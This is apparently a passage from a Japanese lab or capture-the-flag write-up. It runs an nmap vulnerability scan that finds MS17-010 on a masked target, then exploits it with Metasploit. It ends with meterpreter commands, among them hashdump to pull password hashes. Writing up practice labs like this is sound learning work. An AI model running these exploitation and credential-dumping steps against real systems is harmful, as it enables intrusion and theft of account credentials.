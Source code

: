 取得したパスワードを利用してマシンの潜入に成功した。

```bash
$ ssh jan@10.*.*.*
```

## Day 3: 悪用厳禁のエクスプロイトを試してみよう

脆弱性を探すために以下の nmap コマンドを実行した。

```bash
$ nmap -sV -Pn -oN nmap.txt -v 10.*.*.* --script vuln

Host script results:
|_smb-vuln-ms10-061: NT_STATUS_ACCESS_DENIED
|_samba-vuln-cve-2012-1182: NT_STATUS_ACCESS_DENIED
|_smb-vuln-ms10-054: false
| smb-vuln-ms17-010:
|   VULNERABLE:
|   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2017-0143
|     Risk factor: HIGH
|       A critical remote code execution vulnerability exists in Microsoft SMBv1
|        servers (ms17-010).
|
|     Disclosure date: 2017-03-14
|     References:
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0143
|       https://technet.microsoft.com/en-us/library/security/ms17-010.aspx
|_      https://blogs.technet.microsoft.com/msrc/2017/05/12/customer-guidance-for-wannacrypt-attacks/
```

空いているポート 3389/tcp: Windows リモートデスクトッププロトコルが確認できたのと、それに関連した脆弱性が見つかった。Metasploit Framework を使って攻撃を行う。

```bash
$ msfconsole
$ msf6 > search CVE-2017-0143
$ msf6 > use 0
$ msf6 > show options
$ msf6 > set RHOSTS 10.*.*.* // ターゲット
$ msf6 > set LHOSTS 10.*.*.* // ローカル
$ msf6 > exploit
```

接続が不安定だったため、データサイズを調整した。

```bash
$ sudo ip link set dev tun0 mtu 1200
```

接続後、システム情報とハッシュダンプの取得を行った。

```bash
$ meterpreter > getuid
$ meterpreter > sysinfo
$ meterpreter > hashdump
```

